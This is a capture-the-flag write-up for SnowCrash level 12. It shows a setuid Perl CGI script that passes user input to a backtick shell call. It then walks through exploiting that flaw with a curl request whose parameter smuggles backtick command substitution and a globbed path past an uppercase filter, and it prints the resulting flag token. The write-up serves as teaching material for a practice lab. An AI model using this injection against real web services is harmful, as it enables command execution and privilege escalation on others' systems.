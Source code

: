 # Level 12

## Vulnerability
Privilege escalation - CGI code injection

## Context
```
level12@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
## Solution
Let's ```cat``` the file and see what we find. 
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
This program uses CGI (Common Gateway Interface) to execute a shellscript.<br/>
Here's what that would look like in a navigator:<br/>
```http://${VM_IP}:4646/?x={shellscript}<br/>```

In the program, the shellscript is evaluated in the $xx variable... which we can exploit!<br/>
The regex will capitalize the $xx argument. <br/>
So if we write ```x="getflag > /dev/shm/flag12"``` it will be changed to ```"GETFLAG > /DEV/SHM/FLAG12"```.<br/>
Linux is case-sensitive, so it will fail to recognize a filepath in capital case. <br/>
Hmm... let's try writing our script to a file instead. 
```
level12@SnowCrash:~$ echo "getflag > /dev/shm/flag12" > /dev/shm/EXPLOIT
level12@SnowCrash:~$ cat /dev/shm/EXPLOIT
getflag > /dev/shm/flag12
```
Let's make sure we can run the script. 
```
level12@SnowCrash:~$ cd /dev/shm
level12@SnowCrash:/dev/shm$ `EXPLOIT`
EXPLOIT: command not found

level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
bash: /dev/shm/EXPLOIT: Permission denied
```
Ok, looks like it's not executable. Let's change the permissions on the file. 
```
level12@SnowCrash:/dev/shm$ chmod 755 EXPLOIT
level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
level12@SnowCrash:/dev/shm$ ls
EXPLOIT  flag12
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
It works! Time to leverage the perl program to execute our script.<br/>
Since we can't pass the filepath directly (it'll get capitalized by the perl program and be unrecognizable), we'll use globbing and replace the file path with asterisks.
```
level12@SnowCrash:/dev/shm$ curl '127.0.0.1:4646?x="`/*/*/EXPLOIT`"'
..
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Success!
